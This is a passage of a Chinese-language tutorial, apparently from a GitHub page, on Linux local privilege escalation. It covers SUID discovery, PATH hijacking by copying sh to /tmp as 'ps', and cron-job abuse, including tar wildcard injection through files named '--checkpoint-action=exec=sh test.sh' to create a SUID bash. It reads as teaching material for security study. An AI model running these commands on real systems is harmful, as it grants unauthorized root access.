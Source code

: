    ```
   find / -perm -u=s -type f 2>/dev/null
   ```

2. 假设`ps`命令与`demo`文件有`suid`权限，并且`demo`文件中有执行`ps`命令的代码，进入`/bin`目录将`sh`复制到`/tmp`目录下并改名为`ps`

   ```
   cp /bin/sh /tmp/ps
   ```

3. 将/tmp设置为环境变量

   ```
   export PATH=/tmp:$PATH
   ```

4. 执行`demo`文件后可以进入`root`权限的`sh`



### 本地定时任务

该提权有3种方式，分别为路径、命令、权限

#### 路径问题

前提：`root`有计划任务`test.sh`，并且计划没有写绝对路径

计划任务默认调用路径为`/usr/local/bin`

可以将`/bin`目录的`bash`移动到`/tmp`里，然后赋予`suid`权限与`test.sh`执行权限

接下来等待`test.sh`执行即可



#### 命令问题

前提：`root`有计划任务打包备份文件，且该计划打包备份文件夹中所有文件

创建打包备份脚本

```
echo 'cd /home/ywd/.php;tar czf /tmp/backup.tar.gz *' >backup.sh
chmod +x backup.sh
```

参数`- czf`的含义：将目录里所有文件打包成`.tar`后，并且将其用`gzip`压缩，生成一个gzip压缩过的包，命名为`backup.tar.gz`

**流程：**

1. 在要打包的目录下创建三个文件：

   ```
   echo 'cp bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/ywd/.pip/test.sh
   echo "" > "--checkpoint-action=exec=sh test.sh"
   echo "" > --checkpoint=1
   ```

2. 等待计划任务进行打包备份即可

**原理：**

1. 定时任务打包时使用了将整个文件夹下的文件打包，而当系统真正执行打包操作时，会将目录下的所有文件名一个一个传参给执行打包操作。
